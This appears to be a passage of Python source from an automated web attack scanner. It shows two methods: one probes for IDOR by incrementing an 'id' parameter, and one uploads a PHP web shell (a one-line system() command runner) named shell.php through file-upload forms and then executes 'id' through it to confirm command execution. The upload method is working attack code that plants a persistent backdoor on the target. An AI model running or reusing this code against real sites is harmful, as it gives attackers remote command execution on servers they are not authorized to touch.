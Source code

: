     def test_idor(self, url):
        print(f"[*] Testing IDOR on {url}...")
        success = 0
        payload = "N/A"
        http_code = 0
        response_size = 0
        waf_detected = 0
        try:
            if "id=" in url:
                original_id = re.search(r"id=(\d+)", url).group(1)
                test_id = str(int(original_id) + 1)
                test_url = url.replace(f"id={original_id}", f"id={test_id}")
                response = self.session.get(test_url, timeout=10)
                original_response = self.session.get(url, timeout=10)
                if response.status_code == 200 and response.text != original_response.text:
                    print(f"[!] IDOR found on {url} - Accessed ID {test_id}")
                    self.vulnerabilities.append({"type": "IDOR", "url": url, "test_url": test_url})
                    success = 1
                http_code = response.status_code
                response_size = len(response.text)
        except:
            pass
        self.log_attack(url, "IDOR", success, payload, http_code, response_size, waf_detected)
        return success == 1

    def test_file_upload(self, url):
        print(f"[*] Testing File Upload on {url}...")
        for form in self.forms:
            if "file" in str(form["inputs"]).lower():
                success = 0
                payload = "<?php system($_GET['cmd']); ?>"
                http_code = 0
                response_size = 0
                waf_detected = 0
                try:
                    files = {"file": ("shell.php", payload, "application/octet-stream")}
                    response = self.session.post(form["action"], files=files, timeout=10)
                    if response.status_code == 200:
                        uploaded_url = urljoin(form["action"], "uploads/shell.php")
                        test_response = self.session.get(f"{uploaded_url}?cmd=id", timeout=10)
                        if "uid=" in test_response.text:
                            print(f"[!] File Upload vulnerability found on {form['action']} - Shell uploaded!")
                            self.vulnerabilities.append({"type": "File Upload", "url": form["action"], "shell_url": uploaded_url})
                            success = 1
                        http_code = test_response.status_code
                        response_size = len(test_response.text)
                except:
                    pass
                self.log_attack(form["action"], "File Upload", success, payload, http_code, response_size, waf_detected)
                if success:
                    return True
        return False

